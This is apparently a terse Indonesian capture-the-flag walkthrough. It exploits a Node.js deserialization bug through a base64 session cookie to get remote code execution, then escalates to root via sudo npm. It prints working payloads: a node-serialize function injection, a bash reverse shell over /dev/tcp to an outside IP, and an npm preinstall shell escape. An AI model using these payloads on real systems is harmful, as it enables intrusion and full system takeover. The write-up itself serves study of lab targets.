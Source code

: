 # boot:
1. scan nmap -> 22 80 buka -> fuzz gabisa
2. tes burp -> inject email ada session json base64 a:"a"
3. https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ 
4. {
  "email": "_$$ND_FUNC$$_function (){\n \t require('child_process').exec('perintah', function(error, stdout, stderr) { console.log(stdout) });\n }()"
}
5. itu buat value "email" nya jadi gini
6. {
  "email": "_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c 1 <YOUR_IP>',
  function(error, stdout, stderr) { console.log(stdout) });\n }()"
}
7. forward nya ke get tapi setelah post itu
8. sudo tcpdump -i tun0 icmp -> get request pake session tadi di base64
9. exec aja -> {
  "email": "_$$ND_FUNC$$_function (){\n \t require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.9.0.169/6060  0>&1\"', function(error, stdout, stderr) { console.log(stdout) });\n }()"
}
10. sambil nyalain nc -> dah dapet user.txt

# pe:
1. sudo -l -> npm cari di gtfobins
2. sidu=${mktemp -d} -> echo '{"scripts": {"preinstall": "/bin/sh"}}' > $sidu/package.json  
3. sudo npm -C $sidu --unsafe-perm i -> klaim root
